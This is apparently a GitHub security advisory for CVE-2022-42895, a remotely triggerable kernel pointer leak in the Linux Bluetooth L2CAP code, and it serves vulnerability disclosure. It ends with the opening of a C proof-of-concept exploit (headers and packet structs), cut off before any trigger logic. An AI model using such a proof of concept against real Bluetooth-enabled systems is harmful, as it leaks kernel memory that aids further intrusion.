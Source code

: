 ```yaml
---
title: 'Linux Kernel: Infoleak in Bluetooth L2CAP Handling'
severity: Moderate
ghsa_id: GHSA-vccx-8h74-2357
cve_id: CVE-2022-42895
weaknesses: []
products:
- ecosystem: Linux
  package_name: Kernel
  affected_versions: '> v3.0.0'
  patched_versions: ''
cvss: null
credits:
- github_user_id: koczkatamas
  name: Tamás Koczka
  avatar: https://avatars.githubusercontent.com/u/2608082?s=40&v=4
- github_user_id: TheOfficialFloW
  name: Andy Nguyen
  avatar: https://avatars.githubusercontent.com/u/14246466?s=40&v=4
---
```


### Summary
There is an infoleak vulnerability in the Linux kernel's `net/bluetooth/l2cap_core.c`'s `l2cap_parse_conf_req` function which can be used to leak kernel pointers remotely.

The bug was introduced in [commit 42dceae](https://github.com/torvalds/linux/commit/42dceae2819b5ac6fc9a0d414ae05a8960e2a1d9) (version: 3.0.0, date: 2011-Oct-17).

### Severity
Moderate - The leak in Bluetooth L2CAP handling can be used to leak kernel pointers remotely.

### Proof of Concept
The bug can be triggered remotely on a KASAN-enabled kernel with the PoC below. Tested on Ubuntu 22.04, precondition: HighSpeed support needs to be enabled via e.g. `btmgmt hs on`

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

#define AMP_MGR_CID 0x03

typedef struct {
  uint8_t  code;
  uint8_t  ident;
  uint16_t len;
} __attribute__ ((packed)) amp_mgr_hdr;
#define AMP_MGR_HDR_SIZE 4

#define AMP_INFO_REQ 0x06
typedef struct {
  uint8_t id;
} __attribute__ ((packed)) amp_info_req_parms;

typedef struct {
  uint8_t  mode;
  uint8_t  txwin_size;
```